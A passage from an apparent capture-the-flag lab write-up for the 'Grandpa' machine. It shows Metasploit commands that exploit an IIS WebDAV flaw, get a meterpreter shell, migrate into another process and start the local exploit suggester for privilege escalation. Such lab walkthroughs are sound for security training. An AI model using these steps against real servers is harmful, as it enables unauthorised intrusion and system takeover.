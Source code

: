 Let's load up msfconsole and get to work:

    msfconsole
    
    use exploit/windows/iis/iis_webdav_scstoragepathfromurl

![](/images/grandpa/7. msfconsole.png)

So we need to set RHOSTS, but that's about it on this one:

    set RHOSTS 10.10.10.14

    run

![](/images/grandpa/8. run.png)

We have a meterpreter shell. Let's get some of the basics:

    getuid
    
    sysinfo

![](/images/grandpa/9. getuid.png)

The “Access is denied” error for getuid is different. It likely means we have exploited onto this machine as a process or service with absolutely minimal privileges. 

Fortunately we can migrate over to another process. First we need to list running processes:

    ps

![](/images/grandpa/10. ps.png)

To migrate to a different process, we issue the “migrate” command and the process id (PID). Any process that does not show the user or path is likely out of reach (run by NT/Authority System or a user with privileges we cannot access). 

In this case we have one candidate so let's try migrating into process 488:

    migrate 488

![](/images/grandpa/11. migrate.png)
![](/images/grandpa/12. getuid.png)

Much better. Let's background our meterpreter session and run a local exploit suggester to gain system: Ctrl+z

    search suggester

    use 0

    set session 1

    run

![](/images/grandpa/13. suggester.png)
![](/images/grandpa/14. run.png)

